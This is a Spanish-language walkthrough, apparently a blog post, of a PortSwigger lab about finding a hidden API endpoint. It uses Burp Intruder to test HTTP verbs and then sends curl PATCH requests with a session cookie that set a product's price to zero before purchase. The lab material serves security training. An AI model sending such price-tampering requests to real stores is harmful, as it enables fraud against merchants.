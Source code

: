 ```yaml
---
title: Finding and exploiting an unused API endpoint
description: Laboratorio de Portswigger sobre API Testing
date: 2025-02-16 12:27:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - API Testing
tags:
  - Portswigger Labs
  - API Testing
  - Finding and exploiting an unused API endpoint
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` el laboratorio, debemos explotar un `endpoint oculto de la API` para comprar una `Lightweight l33t Leather Jacket`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/API-Testing-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/API-Testing-Lab-3/image_2.png)

Si nos `abrimos` el `código fuente` de la `web` nos encontramos estos

![](/assets/img/API-Testing-Lab-3/image_3.png)

Si accedemos a `https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/resources/js/api/productPrice.js` vemos este contenido

```
const Container = class {
    constructor(message, innerClasses, outerClasses) {
        this.message = message;
        this.innerClasses = innerClasses;
        this.outerClasses = outerClasses;
    }

    #build() {
        const outer = document.createElement('div');
        outer.setAttribute('class', this.outerClasses.join(' '))

        const inner = document.createElement('p');
        inner.setAttribute('class', this.innerClasses.join(' '));
        inner.innerHTML = this.message;

        outer.appendChild(inner);

        return outer;
    }

    static Error(message) {
        return new Container(message, ['is-warning'], ['error-message', 'message-container']).#build();
    }

    static ProductMessage(message) {
        return new Container(message, ['product-messaging-content'], ['product-messaging-banner', 'message-container']).#build();
    }

    static RemoveAll() {
        [...document.getElementsByClassName('message-container')].forEach(e => e.parentNode.removeChild(e));
    }
};

const getAddToCartForm = () => {
    return document.getElementById('addToCartForm');
};

const setPrice = (price) => {
    document.getElementById('price').innerText = price;
};

const showErrorMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.Error(message), target);
};

const showProductMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.ProductMessage(message), target);
};

const handleResponse = (target) => (response) => {
    if (response.error) {
        showErrorMessage(target, `Failed to get price: ${response.type}: ${response.error} (${response.code})`);
    } else {
        setPrice(response.price);
        if (response.message) {
            showProductMessage(target, response.message);
        }
    }
};

const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

Pulsamos sobre `View details > Add to cart` para añadir un producto a nuestro carrito

![](/assets/img/API-Testing-Lab-3/image_4.png)

Si nos abrimos `Burpsuite` y nos dirigimos a la extensión `Logger ++` vemos que al `añadir` un `producto` al `carrito` se hace una petición a `/api/products/1/price`

![](/assets/img/API-Testing-Lab-3/image_5.png)

`Mandamos` la `petición` al `Intruder` y marcamos `GET`

![](/assets/img/API-Testing-Lab-3/image_6.png)

`Añadimos` el `payload` llamado `HTTP verbs`

![](/assets/img/API-Testing-Lab-3/image_7.png)

`Inspeccionamos` las `respuestas` recibidas y vemos un `código de estado 400` con esta `respuesta`

![](/assets/img/API-Testing-Lab-3/image_8.png)

`Enviamos` esta `petición` y nos responde que nos falta un `parámetro` en el `body`

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{}'          
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}  
```

`Modificamos` el `precio` del `artículo` aparentemente

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{"price":0}'         
{"price":"$0.00"} 
```

Si nos `dirigimos` a la `web` podemos confirmarlo

![](/assets/img/API-Testing-Lab-3/image_9.png)

`Pulsamos` sobre `Place Order` y `compramos` el `artículo`

![](/assets/img/API-Testing-Lab-3/image_10.png)

![](/assets/img/API-Testing-Lab-3/image_11.png)
